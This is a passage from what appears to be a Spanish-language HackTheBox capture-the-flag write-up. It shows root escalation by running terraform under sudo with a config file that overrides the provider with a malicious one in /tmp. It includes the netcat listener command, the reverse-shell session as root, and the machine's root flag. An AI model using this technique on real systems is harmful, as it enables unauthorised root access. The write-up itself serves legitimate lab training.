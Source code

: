 Ahora nos pondremos a la escucha desde la maquina atacante:

```shell
nc -lvnp <PORT>
```

Si ejecutamos el comando estando a la escucha y configurandolo con la variable de entorno...

```shell
TF_CLI_CONFIG_FILE=/home/jeremy/.terraformrc \
sudo /usr/bin/terraform -chdir=/opt/examples apply
```

Info:

```
╷
│ Warning: Provider development overrides are in effect
│ 
│ The following provider development overrides are set in the CLI configuration:
│  - previous.htb/terraform/examples in /tmp/malprov
│ 
│ The behavior may therefore not match any released version of the provider and applying changes may cause the state to become incompatible with published
│ releases.
╵
```

Ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.83] 56516
root@previous:/opt/examples# whoami
whoami
root
```

Veremos que ha funcionado y seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
af8a8e83da09a0f824ba7e665db4be51
```
